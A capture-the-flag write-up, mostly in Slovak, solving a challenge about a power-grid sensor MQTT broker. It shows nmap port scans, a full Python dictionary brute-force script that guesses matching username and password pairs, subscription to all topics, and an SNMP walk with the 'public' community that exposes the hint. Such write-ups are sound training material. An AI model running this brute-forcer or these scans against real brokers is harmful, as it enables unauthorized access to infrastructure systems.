 # Zadanie

Hi, emergency troubleshooter,

sensor data from the distribution network are being continuously transmitted to `broker.powergrid.tcc`. However, the outsourced provider went bankrupt last week, and no one else has knowledge of how to access these data. Find out how to regain access to the sensor array data.

Stay grounded!

## Riešenie

Ako už zadanie nepovedá, zrejme pôjde o MQTT a bude otvorený port 1883, overím cez nmap. 

```shell
$ nmap -Pn -p 1883 broker.powergrid.tcc
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-20 20:05 CEST
Nmap scan report for broker.powergrid.tcc (10.99.25.50)
Host is up (0.017s latency).
Other addresses for broker.powergrid.tcc (not scanned): 2001:db8:7cc::25:50

PORT     STATE SERVICE
1883/tcp open  mqtt

Nmap done: 1 IP address (1 host up) scanned in 0.09 seconds
```

Je to tak, ale pri pokuse o pripojenie mi hlási 

```shell
$ mosquitto_sub -h broker.powergrid.tcc -p 1883 -t '#' -v
Connection error: Connection Refused: not authorised.
```

Meno a heslo však neviem, zrejme bude treba brute-forceovať, resp. použiť nejaký slovníkový útok. Najčastejšie používam list common.txt a rockyou.txt. Skúsim menší, common.txt a vzhľadom na to, že neviem ani meno, ani heslo, skúsim najprv tak, že meno aj heslo budú rovnaké.

```python
# mqtt_brute_fixed.py
import time, random, string, sys
from threading import Event
import paho.mqtt.client as mqtt

HOST = "broker.powergrid.tcc"
PORT = 1883
CONNECT_TIMEOUT = 4.0
MSG_WAIT = 2.0
with open("common.txt", "r") as f:
    creds = [line.strip() for line in f if line.strip()]

def try_creds(up):
    connect_event = Event()
    message_event = Event()
    rc_holder = {"rc": None}
    msg_preview = {"topic": None, "payload": None}

    cid = "ctf-" + ''.join(random.choice(string.ascii_lowercase + string.digits) for _ in range(6))

    def on_connect(client, userdata, flags, rc):
        rc_holder["rc"] = rc
        if rc == 0:
            client.subscribe("#", qos=0)
        connect_event.set()

    def on_message(client, userdata, msg):
        msg_preview["topic"] = msg.topic
        try:
            msg_preview["payload"] = msg.payload.decode("utf-8", errors="replace")
        except Exception:
            msg_preview["payload"] = repr(msg.payload[:120])
        message_event.set()
        client.disconnect()

    client = mqtt.Client(client_id=cid, protocol=mqtt.MQTTv311, clean_session=True)
    if up:
        client.username_pw_set(up, up)

    client.on_connect = on_connect
    client.on_message = on_message

    try:
        client.connect(HOST, PORT, keepalive=30)
    except Exception as e:
        print(f"[!] Connection error for {up}:{up} -> {e}")
        return False, None

    client.loop_start()
    connected = connect_event.wait(CONNECT_TIMEOUT)
    if not connected:
        client.loop_stop()
        return False, None

    rc = rc_holder["rc"]
    if rc != 0:
        client.loop_stop()
        return False, rc

    got_msg = message_event.wait(MSG_WAIT)
    client.loop_stop()

    if got_msg:
        tp = msg_preview["topic"]
        pl = msg_preview["payload"]
        print(f"[+] SUCCESS {up}:{up} -> sample: {tp} {pl[:200]!r}")
        return True, rc
    else:
        print(f"[i] Auth ok for {up}:{up} (rc={rc}) but no $SYS messages within {MSG_WAIT}s")
        return True, rc

if __name__ == "__main__":
    for name in creds:
        print(f"[*] Trying {name}:{name}")
        ok, rc = try_creds(name)
        if ok:
            print(f"\n[!] WIN: username='{name}' password='{name}' (rc={rc})\n")
            sys.exit(0)
    print("[-] No creds matched.")
```

Skript sa teda podaril, meno aj heslo sú rovnaké, posledné riadky z výstupu sú

```log
...
[*] Trying reader:reader
[+] SUCCESS reader:reader -> sample: sensors/dev3 'TEST{84GL-Fm58-wE4P-rB54}'

[!] WIN: username='reader' password='reader' (rc=0)
```

teraz použijem `mosquitto_sub` a uvidím, čo sa tam publishuje.

```shell
$ mosquitto_sub -h broker.powergrid.tcc -p 1883 -u reader -P reader -t '#' -v
sensors/dev3 TEST{84GL-Fm58-wE4P-rB54}
sensors/dev1 TEST{1vX4-7hk7-a16H-pi45}
sensors/dev2 TEST{bvX2-B8k7-3b6H-MY8p}
sensors/prod FLAG{0hs0-SiJm-TO5B-46HD}
sensors/dev3 TEST{84GL-Fm58-wE4P-rB54}
sensors/dev1 TEST{1vX4-7hk7-a16H-pi45}
sensors/dev2 TEST{bvX2-B8k7-3b6H-MY8p}
```

Vac mi netreba. Vlajka ma vlastný topic, stačí počkať max 4s a vlajka sa objaví.

---------------------

Po odoslaní write-upu autorom mi odpísali

> U úlohy "Sensor array" by Vám pomohlo udělat ještě UDP scan, tam se  
> skrývá nápověda, která by velmi zjednodušila až odstranila nutnost  
> bruteforce.



Vôbec mi to nenapadlo v čase riešenia, dodatočne som teda pozrel a skutočne.

```
$ sudo nmap -Pn -sU --top-ports 10 broker.powergrid.tcc
Starting Nmap 7.93 ( https://nmap.org ) at 2025-10-31 19:15 CET
Nmap scan report for broker.powergrid.tcc (10.99.25.50)
Host is up (0.018s latency).
Other addresses for broker.powergrid.tcc (not scanned): 2001:db8:7cc::25:50

PORT     STATE  SERVICE
53/udp   closed domain
67/udp   closed dhcps
123/udp  closed ntp
135/udp  closed msrpc
137/udp  closed netbios-ns
138/udp  closed netbios-dgm

   161/udp  open   snmp

445/udp  closed microsoft-ds
631/udp  closed ipp
1434/udp closed ms-sql-m

Nmap done: 1 IP address (1 host up) scanned in 5.78 seconds
```

Je tu otvorený udp port 161. Odtrhol som ho pre zvýraznenie.

```
$ snmpwalk -v 2c -c public broker.powergrid.tcc


iso.3.6.1.2.1.1.1.0 = STRING: "MQTT broker for power grid sensors. Only reader has the rights to subscribe to a topic!"
iso.3.6.1.2.1.1.3.0 = Timeticks: (111704874) 12 days, 22\:17\:28.74
iso.3.6.1.2.1.1.5.0 = STRING: "Mosquitto"
iso.3.6.1.2.1.1.6.0 = STRING: "DC A, area 51"
iso.3.6.1.2.1.1.7.0 = INTEGER: 1
iso.3.6.1.2.1.1.7.0 = No more variables left in this MIB View (It is past the end of the MIB tree)

```

Je to skutočne tak, 
`Only reader has the rights to subscribe to a topic!`

Meno používateľa by som mal známe hneď a pravdepodobne by som skúsil rovnaké heslo.

## Vlajka

    FLAG{0hs0-SiJm-TO5B-46HD}
